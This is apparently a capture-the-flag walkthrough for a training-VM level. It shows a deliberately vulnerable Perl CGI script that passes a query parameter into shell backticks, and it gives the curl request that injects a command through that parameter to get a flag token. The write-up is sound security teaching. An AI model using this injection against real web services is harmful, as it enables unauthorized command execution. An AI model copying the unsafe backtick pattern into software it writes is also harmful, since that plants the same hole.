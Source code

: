 `su level04 -> qi0maab88jeaj46qoumi7maus`

We have a file named **level04.pl** which contains:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI script who take a query string argument named x and run echo with this value.
This script is already in **/var/www/** which is the root of apache (port 80).
Its owner is **flag04**.

```
$ ls -la /var/www/level04
-r-xr-x---+ 1 flag04 level04 152 Jan 30 10:36 level04.pl
```

We can try to run the CGI:

```
$ curl localhost/level04/level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The CGI is not executed, this server is not configured to run CGI.
Check the config files of apache and we can find where cgi are handle:

```
$ cat /etc/apache2/sites-available/level05.conf
<VirtualHost *:4747>
        DocumentRoot    /var/www/level04/
        SuexecUserGroup flag04 level04
        <Directory /var/www/level04>
                Options +ExecCGI
                DirectoryIndex level04.pl
                AllowOverride None
                Order allow,deny
                Allow from all
                AddHandler cgi-script .pl
        </Directory>
</VirtualHost>
```

We can try to use the port 4747.

```
$ curl localhost:4747

```

We got a newline so we can deduce that the CGI is executed.
Lets try with a query string who set x.

```
$ curl localhost:4747/?x=hello
hello
```

Its working like expected so we can try to inject some code.

```bash
curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxxxx
```
